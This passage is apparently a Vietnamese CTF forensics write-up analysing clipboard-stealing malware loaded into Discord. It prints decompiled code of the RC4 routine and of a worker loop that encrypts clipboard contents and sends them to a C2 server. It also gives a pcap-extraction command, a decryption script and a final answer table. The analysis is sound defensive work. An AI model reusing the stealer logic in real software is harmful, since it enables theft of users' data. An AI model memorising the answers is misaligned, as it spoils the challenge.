

### Đáp án

```text
T1115
```

---

## Task 7 - What is the IP address of the C2 server?

### Xác định địa chỉ C2 từ các request POST

Từ câu 1 xác định được các request post tới endpoint /api/v9/experiments của server C2

Từ đó cũng check được luôn IP của server C2 là:

```text
203.49.53.184
```



### Đáp án

```text
203.49.53.184
```

---

## Task 8 - What is the crypto wallet seed phrase stolen by the malware?

### Export payload từ các request gửi tới C2

Từ những câu trước xác định được 4 request client gửi tới server C2



Export phần data của bốn request 

```bash
i=1
tshark -r network.pcap \
  -Y 'ip.dst==203.49.53.184 && http.request.method=="POST" && http.request.uri=="/api/v9/experiments"' \
  -T fields -e http.file_data |
while IFS= read -r hex; do
  printf '%s' "$hex" | tr -d ':' | xxd -r -p > "body_$i.bin"
  i=$((i+1))
done
```

rồi dùng key 16 byte của registry value 1aa3a658ce2c4a4258983eba1853f08c và thuật toán RC4 để decrypt từng payload. Nhưng chỉ ra được byte rác

### Phân tích hàm `Rc4Crypt`

Thử đọc decomplie lại và tìm tới hàm Rc4Crypt() phân tích

<details>
<summary><strong>Bấm để xem toàn bộ hàm Rc4Crypt</strong></summary>

```cpp
_QWORD *__fastcall Rc4Crypt(_QWORD *a1, __int64 *a2, __int64 a3)
{
  __m128i v3;
  __m128i v4;
  char *v7;
  __m128i *v8;
  __m128i v9;
  __m128i v10;
  __m128i v11;
  __m128i v12;
  __m128i v13;
  __m128i v14;
  __m128i v15;
  __m128i v16;
  __m128i v17;
  __m128i v18;
  __m128i v19;
  __m128i v20;
  __m128i v21;
  __m128i v22;
  __m128i v23;
  int v24;
  int v25;
  char v26;
  char v27;
  __int64 v28;
  unsigned __int64 v29;
  unsigned __int64 v30;
  int v31;
  int v32;
  char v33;
  __int64 v34;
  _BYTE v36[256];
  __int128 v37;

  v3 = _mm_loadu_si128((const __m128i *)&xmmword_353CA1180);
  v4 = _mm_srli_epi16((__m128i)-1LL, 8u);
  v7 = v36;
  v8 = (__m128i *)v36;
  v9 = _mm_shuffle_epi32(_mm_cvtsi32_si128(4u), 0);
  v10 = _mm_shuffle_epi32(_mm_cvtsi32_si128(8u), 0);
  v11 = _mm_shuffle_epi32(_mm_cvtsi32_si128(0xCu), 0);
  v12 = _mm_shuffle_epi32(_mm_cvtsi32_si128(0x10u), 0);

  do
  {
    ++v8;
    v13 = _mm_add_epi32(v3, v9);
    v14 = _mm_unpackhi_epi16(v3, v13);
    v15 = _mm_add_epi32(v3, v11);
    v16 = _mm_unpacklo_epi16(v3, v13);
    v17 = _mm_unpacklo_epi16(v16, v14);
    v18 = _mm_unpackhi_epi16(v16, v14);
    v19 = v3;
    v3 = _mm_add_epi32(v3, v12);
    v20 = _mm_unpacklo_epi16(v17, v18);
    v21 = _mm_add_epi32(v19, v10);
    v22 = _mm_unpacklo_epi16(v21, v15);
    v23 = _mm_unpackhi_epi16(v21, v15);

    v8[-1] = _mm_packus_epi16(
               _mm_and_si128(v20, v4),
               _mm_and_si128(
                 _mm_unpacklo_epi16(
                   _mm_unpacklo_epi16(v22, v23),
                   _mm_unpackhi_epi16(v22, v23)),
                 v4));
  }
  while ( v8 != (__m128i *)&v37 );

  v24 = 0;
  LOBYTE(v25) = 0;

  do
  {
    v26 = v24;
    v27 = *v7;
    ++v24;
    ++v7;

    v25 = (unsigned __int8)(
            v27
            + *(_BYTE *)(a3 + (v26 & 0xF))
            + v25);

    *(v7 - 1) = v36[v25];
    v36[v25] = v27;
  }
  while ( v24 != 256 );

  v28 = a2[1];
  *a1 = a1 + 2;
  std::string::_M_construct(a1, v28, 0);

  v29 = a2[1];
  v30 = 0;
  LOBYTE(v31) = 0;
  LOBYTE(v32) = 0;

  while ( v30 < v29 )
  {
    v31 = (unsigned __int8)(v31 + 1);
    v33 = v36[v31];
    v32 = (unsigned __int8)(v33 + v32);

    v36[v31] = v36[v32];
    v34 = *a2;
    v36[v32] = v33;

    *(_BYTE *)(*a1 + v30) =
      v36[(unsigned __int8)(v36[v31] + v33)]
      ^ *(_BYTE *)(v34 + v30);

    v29 = a2[1];
    ++v30;
  }

  return a1;
}
```

</details>

### Xác định độ dài key và các tham số của `Rc4Crypt`

Phần đầu của hàm khởi tạo mảng trạng thái RC4 gồm 256 byte. Sau đó, đoạn sau thực hiện giai đoạn Key Scheduling Algorithm:

```cpp
v25 = (unsigned __int8)(
        v27
        + *(_BYTE *)(a3 + (v26 & 0xF))
        + v25);
```

Biểu thức:

```text
v26 & 0xF
```

giới hạn chỉ số trong khoảng 0–15. Vì vậy, tham số thứ ba a3 là con trỏ tới một khóa dài 16 byte và được lặp lại trong quá trình khởi tạo trạng thái RC4.

Phần cuối tạo keystream rồi XOR từng byte với dữ liệu đầu vào:

```cpp
*(_BYTE *)(*a1 + v30) =
  v36[(unsigned __int8)(v36[v31] + v33)]
  ^ *(_BYTE *)(v34 + v30);
```

Từ đó có thể xác định các tham số chính:

```text
a1 → output sau khi mã hóa hoặc giải mã
a2 → dữ liệu đầu vào
a3 → con trỏ tới RC4 key dài 16 byte
```

Tuy nhiên, Rc4Crypt chỉ sử dụng trực tiếp key đã được truyền qua a3; trong hàm này không có logic đọc Registry hoặc dẫn xuất key từ SessionToken. Vì vậy, để biết 16 byte trong Registry đã được biến đổi như thế nào, cần xem cross-reference của Rc4Crypt và chuyển tới hàm gọi nó là RunWorker.

### Theo cross-reference tới hàm `RunWorker`

Hàm RunWorker có nội dung:

<details>
<summary><strong>Bấm để xem toàn bộ hàm RunWorker</strong></summary>

```cpp
void __fastcall __noreturn RunWorker()
{
  int v0;
  char *v1;
  int *v2;
  char *v3;
  char v4;
  char v5;
  BYTE pbBuffer[8];
  __int64 v7;
  int v8;
  char v9;
  void *Buf2;
  __int64 v11;
  char v12;
  void *Buf1;
  size_t Size;
  __int64 v15;
  void *Block[2];
  __int64 v17;

  *(_QWORD *)pbBuffer = 0;
  v7 = 0;

  if ( !ReadSessionToken(pbBuffer) )
  {
    GenerateSessionToken(pbBuffer);
    WriteSessionToken(pbBuffer);
  }

  v1 = (char *)&v7 + 7;
  v2 = &v8;
  v3 = &v5;

  do
  {
    v4 = *v1--;
    v2 = (int *)((char *)v2 + 1);
    *((_BYTE *)v2 - 1) = v4;
  }
  while ( v1 != &v5 );

  v12 = 0;
  Buf2 = &v12;
  v11 = 0;

  while ( 1 )
  {
    GetClipboardText[abi:cxx11](
      (unsigned int)&Buf1,
      (_DWORD)v2,
      (_DWORD)v3,
      v0,
      *(_DWORD *)pbBuffer,
      v7,
      v8,
      v9);

    if ( Size && (Size != v11 || memcmp_0(Buf1, Buf2, Size)) )
    {
      std::string::_M_assign(&Buf2, &Buf1);

      Rc4Crypt(
        Block,
        (__int64 *)&Buf1,
        (__int64)&v8);

      SendTelemetry((__int64)Block);

      if ( Block[0] != &v17 )
        operator delete(Block[0]);
    }

    Sleep(0x32u);

    if ( Buf1 != &v15 )
      operator delete(Buf1);
  }
}
```

</details>

### Phân tích cách dẫn xuất RC4 key

Đầu tiên, malware thử đọc token đã lưu trong Registry:

```cpp
if ( !ReadSessionToken(pbBuffer) )
{
  GenerateSessionToken(pbBuffer);
  WriteSessionToken(pbBuffer);
}
```

Nếu chưa tồn tại, malware tạo một token mới rồi ghi lại. Mặc dù IDA tách vùng nhớ thành pbBuffer[8] và v7, hai biến này nằm liền nhau trên stack và được code sử dụng như một vùng dữ liệu 16 byte.

Ngay sau đó là đoạn dẫn xuất RC4 key:

```cpp
v1 = (char *)&v7 + 7;
v2 = &v8;
v3 = &v5;

do
{
  v4 = *v1--;
  v2 = (int *)((char *)v2 + 1);
  *((_BYTE *)v2 - 1) = v4;
}
while ( v1 != &v5 );
```

Lệnh:

```cpp
v1 = (char *)&v7 + 7;
```

đặt v1 tại byte cuối cùng của SessionToken. Trong mỗi vòng lặp:

```cpp
v4 = *v1--;
```

malware đọc một byte rồi giảm con trỏ, khiến các byte được lấy theo thứ tự:

```text
token[15], token[14], ..., token[1], token[0]
```

Các byte này được ghi tuần tự vào vùng nhớ bắt đầu tại v8. Logic có thể viết lại dễ hiểu như sau:

```cpp
for (int i = 0; i < 16; i++)
{
    derived_key[i] = session_token[15 - i];
}
```

Buffer đã đảo sau đó được truyền làm tham số thứ ba của Rc4Crypt:

```cpp
Rc4Crypt(
  Block,
  (__int64 *)&Buf1,
  (__int64)&v8);
```

Như vậy:

```text
Buf1  → nội dung clipboard
&v8   → RC4 key đã được đảo theo byte
Block → ciphertext được tạo ra
```

Cuối cùng, ciphertext được gửi tới C2:

```cpp
SendTelemetry((__int64)Block);
```

Registry value ban đầu là:

```text
1a a3 a6 58 ce 2c 4a 42 58 98 3e ba 18 53 f0 8c
```

Đảo thứ tự 16 byte thu được RC4 key:

```text
8c f0 53 18 ba 3e 98 58 42 4a 2c ce 58 a6 a3 1a
```

Viết liền:

```text
8cf05318ba3e9858424a2cce58a6a31a
```

### Flow dẫn xuất key và mã hóa dữ liệu

Toàn bộ luồng xử lý có thể tóm tắt:

```text
ReadSessionToken
        ↓
Đọc 16 byte từ Registry
        ↓
Đảo thứ tự byte
        ↓
Rc4Crypt(clipboard, derived_key)
        ↓
SendTelemetry(ciphertext)
```

### Script giải mã bốn payload

<details>
<summary><strong>Bấm để xem toàn bộ script giải mã RC4</strong></summary>

```python
from pathlib import Path

files = ["body_1.bin", "body_2.bin", "body_3.bin", "body_4.bin"]
key = bytes.fromhex("8cf05318ba3e9858424a2cce58a6a31a")

def rc4(data):
    s = list(range(256))
    j = 0

    for i in range(256):
        j = (j + s[i] + key[i % 16]) & 0xff
        s[i], s[j] = s[j], s[i]

    i = j = 0
    out = bytearray()

    for byte in data:
        i = (i + 1) & 0xff
        j = (j + s[i]) & 0xff
        s[i], s[j] = s[j], s[i]
        out.append(byte ^ s[(s[i] + s[j]) & 0xff])

    return out

for name in files:
    print(f"\n=== {name} ===")
    print(rc4(Path(name).read_bytes()).decode("cp1252"))
```

</details>

Kết quả 



Khả năng cao payload thứ tư chính là đáp án của đề bài vì nội dung giải mã được gồm đúng 12 từ riêng biệt, không tạo thành câu văn hay URL như ba payload còn lại. Cấu trúc này phù hợp với dạng crypto wallet seed phrase, cho thấy đây là dữ liệu ví đã được malware lấy từ clipboard rồi gửi tới C2.

### Đáp án

```text
glow fix connect talon title risk barrel marine truth disease garbage cheese
```

---

## Bảng câu hỏi - đáp án

| Task | Câu hỏi | Đáp án |
|---|---|---|
| 1 | Process khởi nguồn hành vi độc hại | `Discord.exe` |
| 2 | Unix epoch khi malicious module được nạp | `1782527291` |
| 3 | Exported function được gọi | `D3D11CreateDevice` |
| 4 | Registry value 16 byte dùng để dẫn xuất RC4 key | `1aa3a658ce2c4a4258983eba1853f08c` |
| 5 | Mutex do malware tạo | `Local\DiscordRuntimeCache` |
| 6 | MITRE ATT&CK ID của collection method | `T1115` |
| 7 | Địa chỉ IP của C2 server | `203.49.53.184` |
| 8 | Crypto wallet seed phrase | `glow fix connect talon title risk barrel marine truth disease garbage cheese` |
---
